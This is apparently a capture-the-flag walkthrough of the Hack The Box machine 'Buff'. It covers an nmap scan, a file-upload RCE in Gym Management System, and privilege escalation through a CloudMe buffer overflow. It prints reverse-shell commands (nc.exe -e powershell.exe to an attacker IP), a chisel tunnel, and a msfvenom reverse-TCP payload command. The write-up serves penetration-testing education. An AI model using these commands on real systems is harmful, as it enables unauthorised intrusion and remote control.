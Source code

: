 **Nmap Scan:**
```
# Nmap 7.92 scan initiated Wed Jan  4 22:55:01 2023 as: nmap -sC -sV -p- -vv -oA full 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up, received echo-reply ttl 127 (0.073s latency).
Scanned at 2023-01-04 22:55:02 EST for 207s
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE    REASON          VERSION
7680/tcp open  pando-pub? syn-ack ttl 127
8080/tcp open  http       syn-ack ttl 127 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  4 22:58:29 2023 -- 1 IP address (1 host up) scanned in 208.15 seconds

```

There is a website on port 8080, so I started going thorugh it and meantime I ran a gobuster scan:
```
gobuster dir --url http://10.10.10.198:8080/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x .txt,.php,.html 
```
On the website ```Contact``` Tab I saw this:
![contact_pic](images/buff/Pasted image 20230107213809.png)

I searched online and found an exploit on [Exploit-DB](https://www.exploit-db.com/exploits/48506):

**Vulnerability Description**
Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters.

**Initial shell Proof**
![initial_shell_proof](images/buff/Pasted image 20230107214338.png)

Since it is a web shell I was limited and couldn't move from the current directory I was in, so I moved ```nc.exe``` to the target machine, and created a reverse shell.
```
Kali Machine:
smbserver.py kali .
nc -nlvp 443

Target Machine:
copy \\10.10.14.2\kali\nc.exe
.\nc.exe 10.10.14.2 443 -e powershell.exe
```

---
# Privilege Escalation

First, I enumerated the machine manually, and while grabbing the ```user.txt``` flag I saw this:
![clodme_svc](images/buff/Pasted image 20230107214936.png)
```CloudMe_1112``` looked like something worth checking, and I found online a BOF (Buffer OverFlow) exploit on [Exploit-DB](https://www.exploit-db.com/exploits/48389)

I checked the ```netstat``` to see if it was really listening to this ```CloudMe``` service, and it was listening to two ports:
```
netstat -ano

TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       7088
TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       2820
```
**3306:** MySQL Service, which made sense since it was using the PHP site.
**8888:** The port that was associated with ```CloudMe``` service.

To verify it, I grabbed the process ID and found it on the tasklist:
```
tasklist /v | findstr 2820
CloudMe.exe                   2820                            0     37,444 K Unknown 
```

To use this exploit, I needed a tunnel from my Kali to the target machine.
I used [chisel](https://github.com/jpillora/chisel) for this, and this is how I used it:
```
Kali Machine:
One tab:
smbserver.py kali .
Second tab:
./chisel_1.7.7_linux_amd64 server -p 8000 -reverse

Target Machine:
copy \\10.10.14.2\kali\chisel_1.7.7_windows_amd64
.\chisel.exe client 10.10.14.2:8000 R:8888:127.0.0.1:8888
```

Now, to run the exploit I had to do a few modification:

**Generate a payload:**
```
Original Payload: msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python


Modified Payload:
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=1234 -b '\x00\x0A\x0D' -f python -v payload


-v flag was used to set the output payload variable name
I replaced the original payload with the modified one, listened to port 1234 on another tab and ran the exploit.
```

And it worked:
![privesc](images/buff/Pasted image 20230107220850.png)
